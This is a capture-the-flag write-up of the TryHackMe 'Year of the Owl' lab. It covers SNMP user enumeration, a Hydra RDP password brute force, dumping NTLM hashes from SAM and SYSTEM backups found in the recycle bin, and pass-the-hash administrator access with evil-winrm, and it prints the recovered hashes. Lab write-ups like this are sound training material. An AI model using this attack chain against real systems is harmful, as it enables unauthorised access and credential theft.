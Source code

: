 Year of the Owl Tryhackme Writeup

### Nmap
```
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
```
UDP port SNMP 161 open

snmp-check 10.10.233.57 -c openview

```
[*] User accounts:

  Guest               
  Jareth              
  Administrator       
  DefaultAccount      
  WDAGUtilityAccount 
```

With this username crack password using hydra

	[3389][rdp] host: 10.10.233.57   login: Jareth   password: login: Jareth password: sarah

## Privesc

```
*Evil-WinRM* PS C:\Users\Jareth\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== =============================================
year-of-the-owl\jareth S-1-5-21-1987495829-1628902820-919763334-1001


```

cd 'c:\$recycle.bin\<User SID>' Recyle bin has the sam and system bak files. 


```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ python pwdump.py ~/CTF/THM/yearoftheowl/SYSTEM ~/CTF/THM/yearoftheowl/SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::
```

### Pass the Hash

```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ evil-winrm -i 10.10.233.57 -u administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
